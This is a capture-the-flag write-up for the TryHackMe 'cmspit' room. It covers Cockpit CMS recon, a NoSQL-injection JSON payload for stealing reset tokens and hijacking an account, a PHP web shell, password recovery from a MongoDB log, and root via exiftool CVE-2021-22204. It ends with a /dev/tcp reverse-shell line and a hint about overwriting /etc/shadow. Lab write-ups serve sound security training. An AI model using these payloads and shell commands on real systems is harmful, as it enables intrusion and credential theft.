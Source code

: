 Room: https://tryhackme.com/room/cmspit

# RECONNAISSANCE

After we deployed the VM, we start with an NMAP and check the machine. Do a dirb search if it has a http port opened.  
```sudo nmap -v -sV -sC -Pn -T4 -p- -oG nmap.log 10.10.24.213```  
NMAP output:  
![image](https://user-images.githubusercontent.com/71237545/128411161-73299f6f-d68a-4308-81eb-f1d0d49fd926.png)  

From this we can check the port 80.  
Image from the port 80:  
![image](https://user-images.githubusercontent.com/71237545/128411192-81ec7504-828e-446a-b296-cbcb814b8363.png)  

After checking the source code I found the method to /auth/check and we execute dirb to this url.  
	```<form class="uk-form" method="post" action="/auth/check" onsubmit="{ submit }">```  
Dirb command:  
``` dirb http://10.10.24.213/auth/check/ /usr/share/wordlists/dirb/big.txt -f ```  
Dirb output:  
![image](https://user-images.githubusercontent.com/71237545/128411233-b7666e8e-d5c5-4572-8a32-f33e5c8dd83e.png)  

At this point we can answer the first 3 questions.  
After some research for the CMS cockpit with that version I found the following link.  
	https://swarm.ptsecurity.com/rce-cockpit-cms/  

From here, we open BurpSuite to analyze what we can find.  
From the site we take the following fuction to add to the request from our BurpSuite to check the answers.  

```{
"auth":{
	"user":{
		"$func":"var_dump"
		},
	"password":[
		0
		]
	},
"csfr":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJjc2ZyIjoibG9naW4ifQ.dlnu8XjKIvB6mGfBlOgjtnixirAIsnzf5QTAEP1mJJc"} 
```
The output we get from this is the answer of the 4th question and reading through the site on the link we can answer the 5th one.  
With this we start playing around with the path of /auth/resetpassword and /auth/newpassword  
From here we can get the tokens when we use a dump on /resetpassword.  
With this token we can find the user information on /newpassword.  
With this information we can update and change the password of the user, having the reset token on /newpassword.  
And with this we are inside the CMS.  
![image](https://user-images.githubusercontent.com/71237545/128411370-a7e1400b-f592-473f-a320-cc433eeaef49.png)  

Navigating through the site we can find the Web flag.  
After this we have to upload and compromise the machine to get remote access or RCE.  

# Getting the reverse Shell  

After we create a php file with a simple shell we can execute commands on our machine.  

![image](https://user-images.githubusercontent.com/71237545/128411415-49919357-1ae4-4b23-899d-a0c0a6ef5581.png)

We make a reverse shell to upload and have our backdoor to the machine.  

Once we got in, we start checking thought the system and I I found the user.txt flag under /home/stux/  
Checking the files there and also checking the log from mongodb (/var/log/mongodb/mongodb.log) y can get the password of Stux  

With this we can get the Ssh password. And the db flag.  
Once we got this we can get in via SSH with the Stux account.  

![image](https://user-images.githubusercontent.com/71237545/128411453-e44ec792-d5a9-4102-b9b8-62cf2b924893.png)

# ESCALATION  

Here we can get the content of user.txt  
Now that we have the credentials of Stux, we can check any vulnerability to use on the system to escalate privileges. For this we will use Linpeas.  

With this and with sudo -l we can see the chance to use sudo on /usr/local/bin/exiftool  
With this, doing some research I foung the following CVE to use  
https://nvd.nist.gov/vuln/detail/CVE-2021-22204  
And this github to exploit  
https://github.com/bilkoh/POC-CVE-2021-22204  

Using this tool we create a jpg file and then include our payload there.

To use this I add the /bin/bash command on the payload.  
``` Perl image.perl "/bin/bash" ```  
Once this command is executed, a new file caleld notevil.jpg will appear. And now is time to use the sudo command.  
``` sudo /usr/local/bin/exiftool notevil.jpg ```  
If everything goes as it should, a bash shell will come up with the root user. After this is possible to execute either a remote shell or look for the last flag.  
I went for the reverse shell with just a basic reverse shell command.  
Let my port 8085 open with the next command  
	``` nc -lnvp 8085 ```  
And execute the following command on the machine:  
	``` sh-i >& /dev/tcp/10.6.36.7/80850>&1 ```  
With this we have root.  

![image](https://user-images.githubusercontent.com/71237545/128411500-b5cf2084-d6b3-4a67-81e6-ca6909fb572e.png)

And we can print the last flag.  

![image](https://user-images.githubusercontent.com/71237545/128411517-4fc61a75-bd2c-42e7-bd8f-01dedeeb9c88.png)


# Note:  
To do the priv esc without the github tool, we can use the information from GTFOBin and get the shadow file or write the shadow file with another md5 credentials for the user root.  
![image](https://user-images.githubusercontent.com/71237545/128412098-5cb0041a-f49c-4a12-b019-ae37e4a39325.png)  
